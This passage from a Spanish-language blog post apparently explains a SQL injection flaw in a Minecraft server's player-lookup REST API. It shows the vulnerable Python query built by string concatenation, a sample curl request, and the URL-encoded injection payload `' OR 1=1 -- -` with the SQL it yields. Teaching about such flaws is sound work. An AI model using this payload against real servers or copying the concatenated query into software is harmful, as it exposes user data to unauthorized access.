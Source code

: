 Vamos a tomar de ejemplo una API REST que te permite listar información de los jugadores del servidor, contaría con esta ruta, estoy basándome en una vulnerabilidad que encontré en la API de un servidor de Minecraft con una media de 100-130 jugadores; no diré nombre ya que los dueños aún no parchan el error:

`/api/user/:name`

El programador, pensando que no se podrían poner chars raros en la URI colocó la siguiente pieza de código por flojera:

`cursor.execute("SELECT name,uuid,money,banned FROM users WHERE name = '" + name + "'")`

Poniendo simplemente un nombre la API funcionará normal:

{% highlight bash %}
❯ curl -v http://192.168.250.2:8000/api/user/iVz0n_
*   Trying 192.168.250.2:8000...
* Connected to 192.168.250.2 (192.168.250.2) port 8000 (#0)
> GET /api/user/iVz0n_ HTTP/1.1
> Host: 192.168.250.2:8000
> User-Agent: curl/8.0.1
> Accept: */*
> 
< HTTP/1.1 200 OK
< Server: gunicorn
< Date: Thu, 18 May 2023 19:11:17 GMT
< Connection: close
< Content-Type: application/json
< Content-Length: 56
< 
[["iVz0n_","bf02fe6e-a4ba-4759-92e5-5e91a48fc918",0,0]]
{% endhighlight %}

Pero que pasa si te digo que puedes colocar carácteres raros en formato urlencoded... tal como espacios que el servidor web traduciría sin ningún tipo de fallos:

```
/api/user/'%20OR%201=1%20--%20-
```

{% highlight sql %}
SELECT name,uuid,money FROM users WHERE name = '' OR 1=1 -- -
{% endhighlight %}

![SQLi](/assets/posts/minecraft-security/sqli.png)
